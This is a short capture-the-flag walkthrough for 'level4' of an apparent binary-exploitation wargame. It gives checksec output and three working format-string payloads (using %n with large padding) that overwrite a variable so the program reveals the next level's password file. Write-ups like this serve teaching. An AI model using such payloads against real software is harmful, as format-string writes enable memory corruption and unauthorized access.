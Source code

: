 # level4

## Header

```bash
ssh level4@192.168.64.9 -p 4242
...
  GCC stack protector support:            Enabled
  Strict user copy checks:                Disabled
  Restrict /dev/mem access:               Enabled
  Restrict /dev/kmem access:              Enabled
  grsecurity / PaX: No GRKERNSEC
  Kernel Heap Hardening: No KERNHEAP
 System-wide ASLR (kernel.randomize_va_space): Off (Setting: 0)
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      FILE
No RELRO        No canary found   NX disabled   No PIE          No RPATH   No RUNPATH   /home/user/level4/level4
```

<hr>

## Solution

The main principle is the same as in the [level3](./../level3/walkthrough.md), but `m` here should be equal to `0x1025544`  (`16930116` in decimal), so we just need to make a huge padding... 

As the program will call `system("/bin/cat /home/user/level5/.pass")`, we don't need to keep stdin opened, and that makes solution even more simple:

```bash
echo -n $'\x10\x98\x04\x08%16930112c%12$n' | ./level4
# or
printf '\x10\x98\x04\x08%%16930112c%%12$n' | ./level4
# or
python -c 'print "\x10\x98\x04\x08%16930112c%12$n"' | ./level4
```

## References
- [OWASP - format string attack](https://owasp.org/www-community/attacks/Format_string_attack)